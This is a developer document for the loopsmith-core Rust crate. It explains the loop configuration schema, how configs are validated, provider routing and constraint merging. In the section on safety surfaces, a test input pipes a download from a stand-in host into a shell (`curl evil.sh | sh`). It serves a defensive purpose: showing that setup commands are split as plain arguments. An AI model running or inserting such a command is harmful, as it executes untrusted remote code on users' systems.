

# Loop Configuration Schema

# Loop Configuration Schema

The A–J model that describes a loopsmith loop: what it knows, what it must achieve, how achievement is checked, and when it is allowed to stop. This module is the single definition of that model, expressed twice and kept in sync:

| Artifact | Role |
|---|---|
| `config/loop.schema.json` | JSON Schema (draft 2020-12). Editor completion, external tooling, structural shape. |
| `runtime/crates/loopsmith-core` | The Rust model (`src/config/`), its parsers (`src/md/`, serde), and the cross-field rules (`src/validate.rs`). |

Nothing else in the workspace defines config structure. `loopsmith-core` is the leaf of the dependency graph — every other crate (`-gate`, `-graph`, `-provider`, `-skills`, `-memory`, `-mcp`, and the CLI) reads `LoopConfig` and none of them can be reached from here.

## The load path



Four entry points in `lib.rs`:

- **`load(path)`** — reads the file and dispatches. Markdown is chosen *by extension only*, deliberately: a `.md` config is a different grammar, not a different serialization, so guessing would surface a YAML parse error for a document that was never YAML.
- **`parse_str(text, origin)`** — YAML first (a JSON superset in practice), strict JSON as fallback. Both error strings survive into `CoreError::Parse`, because a config that fails as both is usually only comprehensible from the pair.
- **`validate(&cfg)`** — never fails; it returns a `ValidationReport` of `Issue`s, each with a `Severity`, a dotted `field` path (`goals[2].name`), and a message.
- **`load_validated(path)`** — the composition most callers want: any `Severity::Error` becomes `CoreError::Invalid` carrying `report.render()`.

`ValidationReport::has_errors()` is the gate; `errors()` and `warnings()` are iterators for callers that want to print the two classes separately.

## Two layers of enforcement

The JSON Schema catches shape. `validate.rs` catches everything the schema cannot express — which is most of what actually breaks loops:

**Schema only** — `additionalProperties: false` everywhere, `minLength`/`minimum` bounds, the `oneOf` discriminated unions for `detector`, `trigger`, and `concurrency`, the `if/then` requiring `threshold` when a success scenario's `mode` is `percentage`, and the `^[^>]+(->[^>]+)+$` pattern on guideline dependency lines.

**Rust only** — every cross-reference: does this validation target a goal that exists, does this node depend on a node that exists, does this `regex_match` artifact have a producer, does this phase graph contain a cycle, do two builders land in the same wave without isolation.

**Both** — `overall` being reserved as a goal name, `no_progress_iterations_randomness < no_progress_iterations`, the required-fields set.

A third layer sits underneath both: `#[serde(deny_unknown_fields)]` on every struct in `src/config/`. Without it a misspelled key is silently dropped and the loop runs with a default the author never chose. Two tests in `config/mod.rs` pin this — `a_misspelled_top_level_section_is_refused_not_ignored` (`stop_gate:` instead of `stop_gates:`) and `a_misspelled_nested_field_is_refused_not_ignored` (`max_iteration:`) — and both assert the error *names the offending key*, since "unknown field" without the field is not actionable.

## The sections

One module per section, so "where does `stop_gates` live" has the same answer in the schema, the docs, and the code.

| | Field | Module | Type |
|---|---|---|---|
| A | `information` | `info.rs` | `Vec<InfoItem>` — key/value/note, handed to every node |
| B | `pre_execution` | `work.rs` | `Vec<WorkItem>` — the manual work list |
| C | `goals` | `goals.rs` | `Vec<Goal>` — required, non-empty |
| D | `validations` | `validation.rs` | `Vec<Validation>` — required, non-empty |
| E | `success` | `success.rs` | `Vec<SuccessScenario>` |
| F | `stop_gates` | `gates.rs` | `StopGates` |
| G | `schedules` | `triggers.rs` | `Vec<Trigger>` |
| H | `constraints` | `constraints.rs` | `Constraints` (global + per-node) |
| I | `execution_guidelines` | `guidelines.rs` | `ExecutionGuidelines` |
| J | `default_skills` | `default_skills.rs` | `Vec<DefaultSkill>` |

Plus four non-lettered sections that describe execution rather than intent: `graph` (`graph.rs`), `providers` (`providers.rs`), `skills` (`skills.rs`), `context` (`context.rs`).

Only `name`, `goals`, and `validations` are required. Everything else has a serde default — including `stop_gates`, which is why `max_iterations` is 10 and `no_progress_iterations` is 3 in a config that mentions neither.

> One doc-drift note for contributors: the schema's `title`/`description` and the `lib.rs` crate doc still say "the A–H model", while the model has grown sections I and J. The README and `validate.rs` say A–J. The Rust field docs on `LoopConfig` are correct and complete; prefer them.

### B — the load-bearing rule

`check_pre_execution` is the rule the whole design rests on being enforceable:

- `pre_execution` empty → **warning**: "the corpus rule is to do the task manually first — the manual runs are the spec".
- Any step with `done: false` → **error**, listing every undone step: "Automating before understanding produces fast, confident garbage".

A config that has not been run by hand once is refused rather than accommodated.

### D — detectors and the independence ladder

`Detector` is an internally tagged enum (`#[serde(tag = "type")]`), ordered by how much the verdict depends on a model:

```rust
Script { command, args, expect_exit }   // exit code decides — the strongest
FileExists { path, non_empty }
RegexMatch { artifact, pattern }
Threshold { metric, op: CompareOp, value }
Judge { standard, min_score }           // a model verdict — rung 3
```

`CompareOp::apply` implements the five comparisons; note that `Eq` uses `(lhs - rhs).abs() < f64::EPSILON`, which is effectively exact equality for any magnitude above 1 — fine for counts, a trap for scaled floats.

The `Judge` variant requires a non-empty `standard`, checked in `check_validations` and enforced separately by `loopsmith-gate`. The reasoning is in the field doc: *an unnamed standard is an opinion*. A blocking `Judge` in `Mode::Objective` draws a warning steering the author toward a `script` detector.

**Artifact resolution.** `available_artifacts` builds the set of names a `regex_match` may refer to, and that set comes entirely from this config's own `file_exists` detectors — each registered under both its full `path` and its `file_stem`. A regex naming anything else has nothing to match and fails closed for the life of the loop, which reads to the operator as "the work is not done" rather than "this check was never wired up". So it is an **error**, and the message lists what *is* available. `a_regex_over_a_file_the_config_declares_is_accepted` pins both spellings resolving.

**Coverage.** Every goal must be the `target` of at least one `blocking: true` validation, or the config is rejected: *a goal you cannot check is a goal the loop can never honestly finish*. A missing `overall` validation is only a warning — the loop can still finish per-goal.

### F — stop gates

Six ceilings, all evaluated every iteration, any one halting the run. `check_stop_gates` adds the rules the schema can't:

- `max_iterations > 100` → warning; a loop that cannot converge in 100 iterations usually has a miscalibrated verifier.
- `no_progress_iterations == 0` → warning; staleness detection is off.
- No `max_tokens`, `max_cost_usd`, or `max_wall_clock_seconds` at all → warning: "an unsolvable task will bill until someone notices".
- `no_progress_iterations_randomness` must be `>= 1`, must not be set when `no_progress_iterations` is 0 (staleness is never counted, so it can never fire), and must be **strictly less than** `no_progress_iterations`. At or past the halt point the loop stops before it ever tries something different, and the author would never learn that the setting was inert — so it is an error, not a warning.

### I — execution guidelines vs. graph edges

These are the two orderings, and keeping them apart is the point of section I existing.

`graph.nodes[].depends_on` means **this node reads that node's output** — a data dependency, nothing else. Overloading it with method-ordering ("gather before you draft") would make the critical path meaningless, because half the edges would not be real work dependencies.

Phases carry the method ordering. A `Guideline` is a named phase with a standing instruction injected into every node that declares `stage: <name>`. Ordering is written as arrows:

```yaml
execution_guidelines:
  items:
    - name: gather
      guideline: Collect sources. Write nothing yet.
    - name: draft
      guideline: Write only from what `gather` collected.
  dependency:
    - gather -> draft -> review
```

`parse_chain` turns `a -> b -> c` into `[(a,b), (b,c)]`. It refuses a line with no arrow ("write it as `earlier -> later`") and a dangling arrow ("empty name at position N"), reporting the offending *line* rather than the offending character, because that is what the author is looking at. `ExecutionGuidelines::edges()` collects across all lines; `phases()` resolves them into `Phase { name, guideline, depends_on }` — deliberately without cycle or name checking, which belongs to the validator and to `loopsmith-graph`.

Two guidelines with no arrow between them run in parallel. That is the default on purpose: sequencing should be something you asked for, not something you got by writing one item after another.

`check_execution_guidelines` then rejects duplicate names, arrows naming unknown guidelines, self-arrows, a non-empty `dependency` over an empty `items`, cycles, and — importantly — any `graph.nodes[].stage` that is not a declared guideline, since such a node would silently never be dispatched.

## Two graph algorithms that live here by necessity

`loopsmith-graph` owns the real scheduler, but the dependency runs the other way: core cannot reach it. So `validate.rs` carries two small standalone passes.

**`topo_order(&[Phase])`** — Kahn's algorithm over phase names, used purely to detect cycles. Unknown dependency names are skipped (already reported separately); if fewer nodes are placed than exist, the remaining ones are named in the error.

**`wave_levels(&[NodeSpec])`** — the wave a node lands in, defined as the *longest* dependency chain ending at it, computed by relaxation bounded by the node count. Nodes sharing a wave have no path between them, so they are exactly the set that can be dispatched simultaneously. This exists to make the parallel-writer warning precise:

```
survey            wave 1
├─ refactor-a     wave 2  ← both unisolated builders, same wave: warned
└─ refactor-b     wave 2
```

whereas `draft -> make-media -> publish` is a straight chain and draws nothing, because *warning about builders that can never overlap trains the reader to ignore the warning that matters*. The warning is also skipped entirely under `Concurrency::Sequential`. A cyclic graph makes the relaxation stop improving rather than spin — `a_cycle_does_not_hang_the_wave_computation` pins that; the cycle itself is reported at plan time.

## Provider routing

Every `ProviderSpec` is a command template. `{prompt}`, `{system}`, `{model}`, `{tier}`, and `{node}` are substituted into `args` before spawn, which keeps BYOK support out of the Rust build entirely — anything invokable from a shell is routable. `requires_env` names keys only; values are never read, substituted, or logged, so credentials stay out of the ledger.

`ProviderKind` accepts the spellings people actually write. `claude`, `claude-code`, `claudecode` all resolve to `ClaudeCode`; `openai`, `open_ai`, `open-ai`, `OpenAI` to `OpenAi`; `custom` and `BYOK` to `Byok`. `provider_kind_aliases_still_resolve` guards this specifically because the section split could have dropped the aliases silently.

`LoopConfig::cascade_for(tier)` resolves a `Tier` to the ordered provider list: the explicit `providers.cascade` entry if present, otherwise every provider whose `tiers` is empty or contains that tier. `LoopConfig::provider(id)` is the by-id lookup used throughout validation and by `loopsmith-provider::dispatch`.

`check_providers` warns when none are declared (nodes cannot be dispatched), errors on duplicate ids, empty commands, cascade tiers outside `cheap|standard|strong`, and cascade entries naming unknown providers. If `enforce_judge_independence` is on but only one provider exists, it warns — judges will fall back to detector-only verdicts.

## Safety surfaces in section J

`DefaultSkill::init_argv()` splits `init_command` on whitespace and nothing more. This is an **argv line, not a shell line**: `&&`, `|`, and `$(…)` survive as literal arguments. `an_init_command_is_argv_not_a_shell_line` asserts that `npm install && curl evil.sh | sh` yields `argv[0] == "npm"` with `&&` as a plain string. A config that could smuggle a shell into a setup step would make a loop directory an unreviewable install script.

`is_safe_repo_url` gates `source: github` clones to `https://` only. `git://` and `ssh://` carry no transport authentication a loop could verify, `file://` would let a config reach anywhere on the machine, and `https://-…` would be read by git as a flag rather than a URL.

## Constraint merging

`ConstraintSet::merged(global, node)` composes section H: list fields (`rules`, `forbidden_paths`, `forbidden_commands`, `human_checkpoint`) **append**, scalar limits (`max_tokens`, `max_seconds`) are **overridden** where the node sets them. `frozen_git_rules()` returns the three-rule set that made large parallel runs survivable, emitted into parallel nodes unless the author opts out.

`human_checkpoint` is the one constraint that ignores permission grants: matching actions stop and wait regardless. Irreversible decisions do not get made at machine speed.

## Consumers

Everything downstream enters through `load` or `load_validated`:

- `loopsmith-cli` — `cmd/plan.rs`, `cmd/schedule.rs`, `cmd/prune.rs`, `cmd/permissions.rs`, `cmd/gate.rs` call `load`; `cmd/run.rs` (via `start`) and `cmd/watch.rs` call `load_validated`, so a run refuses an invalid config while inspection commands do not.
- `loopsmith-mcp` — `tool_gate` loads the config to answer gate queries.
- `src/web/assemble.rs::load_file` — the browser-based guided flow.
- `src/guided/sections.rs` — constructs `InfoItem`, `Goal`, `NodeSpec`, `ProviderSpec`, `StopGates`, `Guideline`, `ConstraintSet`, `DefaultSkill` directly from answers; `src/guided/mod.rs::skeleton` assembles the `LoopConfig`.
- `loopsmith-cli/src/scaffold.rs::starter_config` — builds a `LoopConfig` from `ProviderRouting`, `SkillPolicy`, and `frozen_git_rules()`, then round-trips it back through `load` in a test, so the scaffold can never emit something the parser rejects.
- `loopsmith-provider::dispatch` → `LoopConfig::provider`; `src/run/perturb.rs::ask_agent` → `cascade_for` (the cheap-tier call behind `no_progress_iterations_randomness`); `loopsmith-skills::install_default` → `init_argv`; `loopsmith-graph` consumes `GraphSpec` for scheduling and its own concurrency capping.

## Contributing: adding a field

A new field touches five places, and skipping any one produces a config that parses but does not behave:

1. **`config/loop.schema.json`** — the property, its constraints, and a description that says *why*, not just what.
2. **The section struct** in `src/config/`, with `#[serde(default = "…")]` if optional. `deny_unknown_fields` is already on every struct; a new field with no schema entry will parse in Rust and fail schema validation, and vice versa.
3. **`src/validate.rs`** — any cross-field rule. Ask what a plausible typo produces: if it silently does nothing (a stage naming a phase that doesn't exist, a randomness threshold past the halt point), it is an **error**; if it is a defensible-but-risky choice (no budget ceiling, no judge node), it is a **warning**.
4. **`src/md/`** — the Markdown grammar, if the field should be authorable there. `loopsmith-core/tests/md_roundtrip.rs` and `loopsmith-cli/tests/surface.rs` assert a config survives the trip out to Markdown and back.
5. **A test** — the existing suite in `validate.rs` is the template. Each test asserts not just that validation failed but that the message *says why* (`contains("can never match")`, `contains("must be less than no_progress_iterations")`), because a rejection the author cannot act on is barely better than a silent default.

Note the crate's `include` list is `["/src/**/*", "/README.md"]`. The integration tests read `config/examples/` and `config/loop.schema.json` from the repository root, which no crate tarball can contain — shipping them would hand a published crate tests that cannot pass. Run them from the workspace root.